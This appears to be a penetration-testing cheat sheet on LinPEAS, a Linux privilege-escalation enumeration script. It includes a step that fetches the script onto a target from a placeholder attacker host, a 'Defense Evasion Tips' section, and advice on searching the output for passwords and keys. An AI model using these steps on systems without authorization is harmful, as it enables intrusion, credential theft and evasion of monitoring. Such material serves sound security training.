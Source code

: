 
---
## 🚀 Quick Start

### 1. **Download LinPEAS**

From Kali or attacker machine:

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```

```
chmod +x linpeas.sh
```

or

```
git clone https://github.com/carlospolop/PEASS-ng.git
```

```
cd PEASS-ng/linPEAS
```

## 🖥️ Transfer to Target Machine

### Via Python HTTP Server:

On attacker machine

```
python3 -m http.server 8080
```

On target machine

```
wget http://<attacker-ip>:8080/linpeas.sh
```

```
chmod +x linpeas.sh
```

### 🔍 Running LinPEAS
```
./linpeas.sh
```

Optional colorized output:

```
TERM=xterm ./linpeas.sh
```

Run as root (if escalated already):

```
sudo ./linpeas.sh
```

Run and save output:

```
./linpeas.sh | tee linpeas_output.txt
```

## 🧰 Useful Flags & Tips

| Option | Description                         |
| ------ | ----------------------------------- |
| `-a`   | Run **all** LinPEAS checks          |
| `-h`   | Help                                |
| `-s`   | Stealth mode (less noisy)           |
| `-q`   | Quiet mode (minimal output)         |
| `-m`   | Manual mode (pause at each section) |
## 📂 Output Sections

LinPEAS organizes output by category:

- ✅ **Potential escalation paths** (highlighted in green/yellow/red)
- 🔧 **System info:** OS, users, kernel, architecture
- 🔒 **Permissions:** SUDO, SUID, SGID, Capabilities
- 🔍 **Interesting Files:** Credentials, history, backups
- ⚙️ **Cron Jobs:** Writable scripts or misconfigured jobs
- 🐚 **Shell Configs:** `.bashrc`, `.profile`, etc.
- 🐳 **Docker/LXC:** Container misconfigs
- 📡 **Networking:** Open ports, services, and connections

## 🛡️ Defense Evasion Tips

- LinPEAS is noisy. Run during low-visibility windows.
- Use `stealth` mode in sensitive environments:

```
./linpeas.sh -s
```

## 🛠️ After LinPEAS

1. Review highlighted sections (especially RED/YELLOW/GREEN)
2. Search output for:
    
    - `password`
    - `key`
    - `root`
    - `cap_`
    - `docker`

3. Consider escalating via:
    
    - Writable scripts (e.g., cron)
    - Misconfigured binaries
    - Sudo permissions
    - Kernel exploits (check kernel version)

## 📚 Related Tools

|Tool|Purpose|
|---|---|
|`pspy`|Monitor running processes|
|`sudo -l`|Check sudo rights|
|`find`|Locate SUID/SGID files|
|`getcap -r / 2>/dev/null`|List file capabilities|
















